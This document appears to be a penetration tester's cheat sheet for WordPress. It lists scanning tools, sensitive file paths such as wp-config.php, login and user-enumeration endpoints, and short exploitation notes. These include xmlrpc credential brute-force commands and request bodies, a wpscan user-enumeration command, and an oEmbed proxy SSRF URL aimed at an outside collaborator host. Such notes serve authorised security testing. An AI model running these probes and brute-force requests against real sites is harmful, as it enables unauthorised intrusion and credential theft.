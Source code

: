 
Source
    https://wordpress.org/download/
Hacks
    https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
    https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/
Auto
    wpscan
    nmap
    nikto
    OpenVAS
    CMSMap
    msfconsole
        scanner/http/wordpress_scanner
    Burpsuite 


########################################
######## Information Gathering
########################################

# Entitiy
1. Core
2. Plugins
3. Themes
4. xmlrpc.php
5. Users
6. Directory

# WordPress Files
Basics
    /readme.html
    /index.php
    /license.txt
    /wp-activate.php
    /wp-sitemap.xml
    /robots.txt
    /sitemap.xml
    /feed
    /wp-includes/functions.php
    /xmlrpc.php
Configuration files
    /.htaccess
    /wp-config.php
    /_wpeprivate/config.json
Content
    /wp-content/
    /wp-content/plugins/
    /wp-content/themes/
    /wp-includes/
    /uploads/
    /upload/
    /images/
    /wp-content/uploads/2018/08/a.txt
    /wp-content/themes/twentytwelve/404.php
    /wp-content/themes/default/404.php
Login folders
    /wp-admin/login.php
    /wp-admin/wp-login.php
    /login.php
    /wp-login.php
    /wp-login/
    /wp-admin/
    /wp-admin.php
    /login/
xmlrpc.php
    curl @xmlrpc .../xmlrpc.php --data "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>"
    ./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1


########################################
######## Enumeration
########################################

1. Core
Version
    curl https://victim.com/ | grep 'content="WordPress'
    <meta name="generator"
    CSS link files
    JavaScript files
Vulnerability
    https://patchstack.com/database/
    https://wpscan.com/wordpress/60/

2. Plugins

3. Themes

4. xmlrpc.php
    curl @xmlrpc .../xmlrpc.php --data "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>"

5. Users
Roles
    - Administrator
    - Editor: Publish and manages his and others posts
    - Author: Publish and manage his own posts
    - Contributor: Write and manage his posts but cannot publish them
    - Subscriber: Browser posts and edit their profile
Enumeration
    /?author=XXX
    /wp-json/wp/v2/users
    /wp-json/oembed/1.0/embed?url=POST-URL
    /wp-json/wp/v2/pages
    /wp-json/?rest_route=/wp/v2/users
    [wpscan] 
        wpscan --url https://$TARGET --random-user-agent --enumerate u --output wpscan.usernames --api-token $WP_TOKEN

6. Directory Indexing
    /robots.txt
    /sitemap.xml
    url.sh: katana, waybackurls


########################################
######## Exploit
########################################

1. Core
    - /wp-json/oembed/1.0/proxy - SSRF
        https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net

2. Plugins
    - WooCommerce < 7.9 - Unauthenticated Sensitive Information Disclosure

3. Themes

4. xmlrpc.php

5. Users
    - Credentials Bruteforce
        POST /xmlrpc.php <methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>pass</value></param></params></methodCall>
    - Create User, login.

6. Directory

